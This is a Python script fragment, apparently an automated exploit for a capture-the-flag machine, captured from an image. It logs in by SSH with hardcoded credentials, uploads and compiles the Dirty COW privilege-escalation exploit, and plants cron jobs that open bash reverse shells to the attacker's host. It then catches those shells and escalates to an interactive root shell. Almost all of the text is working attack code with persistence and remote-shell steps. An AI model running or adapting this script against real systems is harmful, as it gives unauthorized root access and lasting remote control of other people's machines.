 ```py
    print("[+] SSH File Created !! [+]")
    print("[+] Now, let's get the dirty cow exploit file !! [+]")
    os.system("searchsploit -m linux/local/40839.c")
    print("[+] File copied to attacker folder ! [+]")

# Login SSH as hype and
def LoginHypeAndRoot(rhost,lport,lhost):
    hype_shell = ssh(host=rhost, port=22, user='hype', password='heartbleedbelievethehype', keyfile='/tmp/ssh.key')
    # Upload the Dirty Cow exploit to the target
    hype_shell.upload_file("40839.c","40839.c")
    os.system("rm 40839.c")
    # Compile it and make persistence
    hype_shell.run("gcc -pthread 40839.c -o rootshell -lcrypt && chmod +x rootshell && ./rootshell 142536")
    hype_shell.run("echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/%s/%s 0>&1' > monitor.sh && echo \"* * * * * bash /home/hype/monitor.sh\" > repeater && crontab repeater" %(lhost,lport))
    # Make the script to the next shell run
    lport = int(lport) + 1
    hype_shell.run("echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/%s/%s 0>&1' > monitor.sh" %(lhost,lport))
    hype_shell.close()
    pseudo_root = listen(lport).wait_for_connection() 
    pseudo_root.recv()
    pseudo_root.send(b"python -c 'import pty; pty.spawn(\"/bin/sh\")'")
    pseudo_root.send(b"\n")
    pseudo_root.recv()
    pseudo_root.send(b"su firefart -c \"sleep 5 && bash monitor.sh\"")
    pseudo_root.send(b"\n")
    pseudo_root.recv()
    pseudo_root.send(b"142536")
    pseudo_root.send(b"\n")
    pseudo_root.recv()
    pseudo_root.close()
    root_shell = listen(lport).wait_for_connection()
    root_shell.interactive()

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localip', help='Local ip address or hostname', required=True)
    parser.add_argument('-lp', '--localport', help='Local port', required=True)
    args = parser.parse_args()

    rhost = args.target
    lhost = args.localip
    lport = args.localport

    '''Here we call the functions'''
    # Drop the ssh key and dirty cow
    DropFiles()
    # Login as hype in ssh session
    LoginHypeAndRoot(rhost,lport,lhost)


if __name__ == '__main__':
    main()
```

Done.